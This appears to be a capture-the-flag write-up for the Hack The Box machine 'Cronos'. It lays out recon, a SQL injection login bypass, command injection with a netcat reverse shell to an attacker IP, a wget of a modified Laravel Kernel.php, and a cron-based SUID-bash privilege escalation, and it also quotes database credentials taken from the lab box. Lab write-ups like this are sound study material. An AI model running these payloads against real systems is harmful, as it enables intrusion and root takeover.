









# Summary


## about target

tip:  10.129.119.83

hostname: Cronos

Difficulty: Medium


## about attack

+ web enum with nothing, try to add the hostname to hosts and enum the domain name(dns)
+ login page-- sql injection -- command injection -- cronjob to root.


**attack note**

```bash
Cronos / 10.129.227.211

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)


## http enum

80, apache default page, nothing.

add hosts
echo '10.129.119.83 cronos.htb' | sudo tee -a /etc/hosts

laravel page, nothing on source and page.

dir scan


search exploit  laravel, wrong path.
CVE-2018-15133
https://github.com/kozmic/laravel-poc-CVE-2018-15133

CVE-2021-3129
https://github.com/ambionics/laravel-exploits

php -d 'phar.readonly=0' phpggc --phar phar -o ./exploit.phar --fast-destruct monolog/rce1 system id 

./laravel-ignition-rce.py http://cronos.htb ./exploit.phar


php -d 'phar.readonly=0' phpggc/phpggc laravel/rce3 system command --phar phar -o php://output | base64 -w0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())


## enum domain agin
add to hosts.
10.129.119.83 cronos.htb 

domain dig
dig axfr @10.129.119.83 cronos.htb

add admin.cronos.htb www.cronos.htb to hosts.
10.129.119.83 cronos.htb admin.cronos.htb www.cronos.htb


sql injection test

username=admin'+--+-&password=admin 
302 to welcome.php


## exploit command injection

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.33 4444 >/tmp/f


### get real tty shell
python -c 'import pty;pty.spawn("/bin/bash")'

export TERM=screen

stty raw -echo

## local enum
config.php, db creds
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');

linpeas.sh enum


Linux version 4.4.0-72-generic (buildd@lcy01-17) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) 

Sudo version 1.8.16


╚ https://github.com/jondonas/linux-exploit-suggester-2
  [1] af_packet
      CVE-2016-8655
      Source: http://www.exploit-db.com/exploits/40871
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] get_rekt
      CVE-2017-16695
      Source: http://www.exploit-db.com/exploits/45010

* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1


## privesc - cronjob

https://laravel.com/docs/9.x/scheduling

find / -name "Kernel.php" -type f 2>/dev/null

/var/www/laravel/app/Console/Kernel.php

$schedule->exec('cp /bin/bash /tmp/bash; chmod 4755 /tmp/bash')->minute();

wget http://10.10.14.29/Kernel.php -O /var/www/laravel/app/Console/Kernel.php

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 00:36 CST
Nmap scan report for 10.129.227.211
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   334.97 ms 10.10.14.1
2   335.45 ms 10.129.227.211

```


## http enum

80 port, apache deafult page, nothing.


add hosts.

```bash
echo '10.129.119.83 cronos.htb' | sudo tee -a /etc/hosts
```

dir scan, nothing found. 

```bash
gobuster dir -u http://cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster.log
```


dns enumerate, got 2 subdomain. 

add to hosts.

```bash
dig axfr @10.129.119.83

10.129.119.83 cronos.htb admin.cronos.htb www.cronos.htb
```





access to admin.cronos.htb, login page.

check admin:admin login, wrong pwd.

check sql injection. 302 to welcome.php

```bash
username=admin'+--+-&password=admin 
```





command injection.



test command injection.

# Exploitation




get shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.33 4444 >/tmp/f
```





# Privesc


## local Enum

```bash
python -c 'import pty;pty.spawn("/bin/bash")'

export TERM=screen
# check later.
stty raw -echo
```

enum cron job.  




## System

check Kernel.php file.



search laravel schedule run.

https://laravel.com/docs/9.x/scheduling

change the php file.

```bash
    protected function schedule(Schedule $schedule)
    {
	   $schedule->exec('cp /bin/bash /tmp/bash; chmod 4755 /tmp/bash')->everyMinute();
        // $schedule->command('inspire')
        //          ->hourly();
    }
```

wait and check /tmp

```bash
sleep; ls -al /tmp
```

got bash file with suid bit.



```bash
/tmp/bash -p
```


## proof

```bash

```


